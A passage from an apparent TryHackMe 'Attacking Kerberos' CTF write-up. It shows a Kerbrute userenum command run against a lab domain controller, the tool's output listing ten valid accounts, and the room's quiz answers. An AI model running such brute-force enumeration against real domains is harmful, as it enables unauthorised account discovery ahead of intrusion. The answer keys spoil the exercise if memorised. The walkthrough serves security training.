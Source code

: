 1. cd into the directory that you put Kerbrute
2. Download the wordlist to enumerate with here
3. ./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt - This will brute force user accounts from a domain controller using a supplied wordlist

![](https://i.imgur.com/fSDrhyb.png)

Now enumerate on your own and find the rest of the users and more importantly service accounts.

```
bibo318@parrot:~/CTFs/tryhackme/Attacking Kerberos$ sudo /opt/kerbrute/dist/kerbrute_linux_amd64 userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

Version: dev (1ad284a) - 11/24/20 - Ronnie Flathers @ropnop

2020/11/24 19:04:20 >  Using KDC(s):
2020/11/24 19:04:20 >   CONTROLLER.local:88

2020/11/24 19:04:20 >  [+] VALID USERNAME:       administrator@CONTROLLER.local
2020/11/24 19:04:20 >  [+] VALID USERNAME:       admin1@CONTROLLER.local
2020/11/24 19:04:20 >  [+] VALID USERNAME:       admin2@CONTROLLER.local
2020/11/24 19:04:21 >  [+] VALID USERNAME:       httpservice@CONTROLLER.local
2020/11/24 19:04:21 >  [+] VALID USERNAME:       machine1@CONTROLLER.local
2020/11/24 19:04:21 >  [+] VALID USERNAME:       machine2@CONTROLLER.local
2020/11/24 19:04:21 >  [+] VALID USERNAME:       sqlservice@CONTROLLER.local
2020/11/24 19:04:21 >  [+] VALID USERNAME:       user1@CONTROLLER.local
2020/11/24 19:04:21 >  [+] VALID USERNAME:       user2@CONTROLLER.local
2020/11/24 19:04:21 >  [+] VALID USERNAME:       user3@CONTROLLER.local
2020/11/24 19:04:21 >  Done! Tested 100 usernames (10 valid) in 0.406 seconds
```

How many total users do we enumerate?

`10`

What is the SQL service account name?

`sqlservice`

What is the second "machine" account name?

`machine2`

What is the third "user" account name?

`user3`

## Task 3 Harvesting & Brute-Forcing Tickets w/ Rubeus

To start this task you will need to RDP or SSH into the machine your credentials are -
